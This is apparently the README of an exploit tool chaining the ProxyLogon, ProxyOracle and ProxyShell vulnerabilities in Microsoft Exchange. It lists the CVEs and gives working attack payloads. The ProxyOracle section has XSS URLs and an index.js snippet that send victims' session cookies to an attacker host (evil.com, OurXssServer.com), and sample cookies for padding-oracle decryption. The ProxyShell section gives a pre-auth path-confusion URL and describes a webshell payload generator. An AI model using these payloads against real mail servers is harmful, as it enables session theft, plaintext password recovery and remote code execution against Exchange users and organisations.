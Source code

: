 # Proxy-Attackchain

proxylogon, proxyshell, proxyoracle full chain exploit tool

1. ProxyLogon: The most well-known and impactful Exchange exploit chain
2. ProxyOracle: The attack which could recover any password in plaintext format of Exchange users
3. ProxyShell: The exploit chain demonstrated at [Pwn2Own 2021](https://twitter.com/thezdi/status/1379467992862449664) to take over Exchange and earn $200,000 bounty

ProxyLogon is Just the Tip of the Iceberg: A New Attack Surface on Microsoft Exchange Server! [Slides](https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-ProxyLogon-Is-Just-The-Tip-Of-The-Iceberg-A-New-Attack-Surface-On-Microsoft-Exchange-Server.pdf) [Video](https://www.youtube.com/watch?v=5mqid-7zp8k)

## most of the exploit is recoded with golang to speed up... and for learning golang purpose :)

 - ![](./pics/logo-black.png)

| NAME | CVE | patch time | description |
| ----------- | ----------- | ----------- | ----------- |
| ProxyLogon | [CVE-2021-26855](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26855) | Mar 02, 2021 | server-side request forgery (SSRF) |
| ProxyLogon | [CVE-2021-27065](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-27065) | Mar 02, 2021 | Microsoft.Exchange.Management.DDIService.WriteFileActivity未校验写文件后缀，可由文件内容部分可控的相关功能写入WebShell |
| ProxyOracle | [CVE-2021-31196](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31196) | Jul 13, 2021 | Reflected Cross-Site Scripting |
| ProxyOracle | [CVE-2021-31195](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31195) | May 11, 2021 | Padding Oracle Attack on Exchange Cookies Parsing |
| ProxyShell | [CVE-2021-34473](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34473) | Apr 13, 2021 | Pre-auth Path Confusion leads to ACL Bypass |
| ProxyShell | [CVE-2021-34523](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34523) | Apr 13, 2021 | Elevation of Privilege on Exchange PowerShell Backend |
| ProxyShell | [CVE-2021-31207](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31207) | May 11, 2021 | Post-auth Arbitrary-File-Write leads to RCE |
| proxytoken | [CVE-2021-33766](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-33766) | July 13, 2021 | With this vulnerability, an unauthenticated attacker can perform configuration actions on mailboxes belonging to arbitrary users. As an illustration of the impact, this can be used to copy all emails addressed to a target and account and forward them to an account controlled by the attacker. |
| Microsoft Exchange Server 远程执行代码漏洞 | [CVE-2021-42321](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42321) | Nov 17, 2021 | Exchange Deserialization RCE |

# proxylogon

 - ![](pics/proxylogon.png)
 - ![](pics/proxylogon1.png)

# proxyoracle

Once a victim clicks this link, evil.com will receive the cookies.

``` bash
https://ews.lab/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.cookie=`X-AnonResource-Backend=@evil.com:443/path/any.php%23~1941962753`;document.cookie=`X-AnonResource=true`;fetch(`/owa/auth/any.skin`,{credentials:`include`});//
```

or use 3gstudent's way:

## step1: XSS平台搭建

借助SSRF漏洞，控制Exchange服务器将Cookie信息发送至XSS平台，导致最终想要的Cookie信息位于Request Headers中

而现有的XSS平台大都是通过POST请求的参数来传递数据

为了解决这个问题，这里可以选择开源的XSS平台，地址如下：

https://github.com/3gstudent/pyXSSPlatform

只需要修改以下位置：

 - 修改index.js，使用ajax模拟用户发包触发SSRF漏洞

 - 修改 pyXSSPlatform.py ，将GET请求的Request Headers进行提取

 - 使用合法的证书

index.js代码示例：

``` bash
var xmlHttp = new XMLHttpRequest();
xmlhttp.open("GET", "https://192.168.1.1/owa/auth/x.js", false);
document.cookie = "X-AnonResource=true";
document.cookie = "X-AnonResource-Backend=OurXssServer.com/#~1";
xmlhttp.send();
```

## step2: XSS利用代码

控制用户访问XSS平台的代码示例：

``` bash
https://192.168.1.1/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//
```

## step3: example cookie for decryption test:

``` bash
cadata=FVtSAAWdOn29HYDQry+kG+994VUdAxONrayi4nbJW9JWTh8yLueD6IxYpahfxcGsA/B3FoVUQOD2EG605SR4QdeQ1pof+KD//6jwpmYQjv/II+OcqChrFZFvcMWv46a5; cadataTTL=eTxCEHKHDMmd/gEqDuOafg==; cadataKey=T4juhN4dUMKY4wkajUD43n4EWfMwefPQlqzxXmK4GnSHIZqo+g+uQg1Y2ogGoD1HyoVpRYgjGcCu6rmNQK+LsaZ8/lfBCThBI5yAhP1W2Fx+YNKvzy8Bcpui7zTlhAY598lE5Aijs6crHVXJeZkbLfMJgp0cFHj5uTQPcg31O/AeOAnD5c27IYOQ7JqMW7GOUVor1lhYnhh0R/NtWWqyfr5oE9j0jbxIGgrQrXIpLxL/uAU1ddC+/5jG9Edpq4sC213amuU/94rkHYzNH9OsiHYIkXr/NmkB7p908XrFrwXAcvV9QieoRiS3jvKCbzk3mnMu3YTnsJwAuiHzSXdCOQ==; cadataIV=GB9B+rwrigyPOf8xnV1KAek++yovEot9jFcV68WepCTQoRtQ5HUxSC7tE1mmHg0YtE6EOZNUM/WiNGP6xI4UTAofcMOfTLeRpBzeaKOETfjxKK2W7IKn+9k2tRkc1pIlO8FTOVx/dOHOoIFHUkqxFr+TgBULJ1I7tUmO7W0XDX4ZJHfmQhVqOOzeyjImKdX7Uv/jIJrF4VEew7rgvrC8BhqOqWgaTxpGhDTzIXl+wW3crsgZmXpXhOPURej1iwmtvhuQU6iuq4/IRv0lVIW3WvP6gUI8owIUxppnJl7YmN27Aqkjs0nTZZz1LBuZN+YxY4x6Lvs2FMG68jllhE4kwg==; cadataSig=BOJSYN2B+3RsXjO2akh3mqlKKkeAZVamOzfpVo0QdPEA3BHjpR6ls5yD9TzAQzRuWJJaaRIm7wMEiBMFz/sK5jk3R6kWw1OmMtJN2c38PdvwGIe6/7ByJdl52a5ojhDrRZhc4Qc3y+FFRx6XKvqUljTRWtHJGI1Jad2+LiNhJGkalhUeTM/a2V4LiQWf6Vv1KzJO79rZuOOOBnatht/E29j6636FpllCfEKrrogPQ7ADdVS6OOmqNU9gRMVgKnomC2t2PCtuYj26HUjnZ3rfc6BdzVmtu9EYSzccObsB2jxXXclAm5a+NZU/6sj9tlq3gcurjBl9yUDTgbZLg383gw==
```

 - amd64 poc binary usage:
 - just a modyfied version of [padre](https://github.com/glebarez/padre), added proxyoracle detect poc code...
 - ![](pics/proxyoracle.png)

 - python script exp usage:

Decrypt this cookie to plaintext:

 - ![](pics/proxyoracle1.png)

# proxyshell

 - CVE-2021-34473 - Pre-auth Path Confusion

This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL, it’s still powerful enough for us to conduct further attacks with arbitrary backend access.

``` bash
https://xxx.xxx.xxx.xxx/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

 - CVE-2021-34523 - Exchange PowerShell Backend Elevation-of-Privilege
 - CVE-2021-31207 - Post-auth Arbitrary-File-Write

## simple script to confirm is proxyshell exists

 - may update later to support detect from mass url file

 - ![](pics/proxyshell11.png)

## step1: generate proxyshell specified webshell payload.

 - proxyshell_payload_gen.py

just put the webshell content you want to "webshell", then it will be fine...

 - ![](pics/proxyshell.png)

coming soon...

# proxytoken

coming soon...

 - ![](pics/proxytoken.png)

# Exchange RCE CVE-2021-42321

coming soon...

 - ![](pics/CVE-2021-42321.png)

# ***more exp coming soon......***

# Reference (worship to orange!)
 - [Proxylogon](https://proxylogon.com/)
 - [A New Attack Surface on MS Exchange Part 1 - ProxyLogon!](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html)
 - [ProxyLogon漏洞分析](https://hosch3n.github.io/2021/08/22/ProxyLogon%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
 - [CVE-2021-42321](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42321)
 - [Some notes about Microsoft Exchange Deserialization RCE (CVE-2021–42321)](https://peterjson.medium.com/some-notes-about-microsoft-exchange-deserialization-rce-cve-2021-42321-110d04e8852)
 - [A New Attack Surface on MS Exchange Part 2 - ProxyOracle!](https://blog.orange.tw/2021/08/proxyoracle-a-new-attack-surface-on-ms-exchange-part-2.html)
 - [ProxyOracle漏洞分析](https://hosch3n.github.io/2021/08/23/ProxyOracle%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
 - [My Steps of Reproducing ProxyShell](https://y4y.space/2021/08/12/my-steps-of-reproducing-proxyshell/)
 - [ProxyShell漏洞分析](https://hosch3n.github.io/2021/08/24/ProxyShell%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
 - [FROM PWN2OWN 2021: A NEW ATTACK SURFACE ON MICROSOFT EXCHANGE - PROXYSHELL!](https://www.zerodayinitiative.com/blog/2021/8/17/from-pwn2own-2021-a-new-attack-surface-on-microsoft-exchange-proxyshell)
 - [ProxyVulns](https://github.com/hosch3n/ProxyVulns)
 - [pax](https://github.com/liamg/pax)
 - [padre](https://github.com/glebarez/padre)
 - [python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle)
 - [Reproducing The ProxyShell Pwn2Own Exploit](https://peterjson.medium.com/reproducing-the-proxyshell-pwn2own-exploit-49743a4ea9a1)
 - [ProxyShell](https://github.com/ktecv2000/ProxyShell)
 - [PROXYTOKEN: AN AUTHENTICATION BYPASS IN MICROSOFT EXCHANGE SERVER](https://www.zerodayinitiative.com/blog/2021/8/30/proxytoken-an-authentication-bypass-in-microsoft-exchange-server)
 - [A basic proxyshell scanner](https://github.com/dinosn/proxyshell)
 - [Proof of Concept Exploit for Microsoft Exchange CVE-2021-34473, CVE-2021-34523, CVE-2021-31207](https://github.com/horizon3ai/proxyshell)
 - [Generate proxyshell payload by Py Permutative Encoding](https://github.com/Ridter/proxyshell_payload)
 - [CVE-2021-34473-Exchange-ProxyShell](https://github.com/je6k/CVE-2021-34473-Exchange-ProxyShell)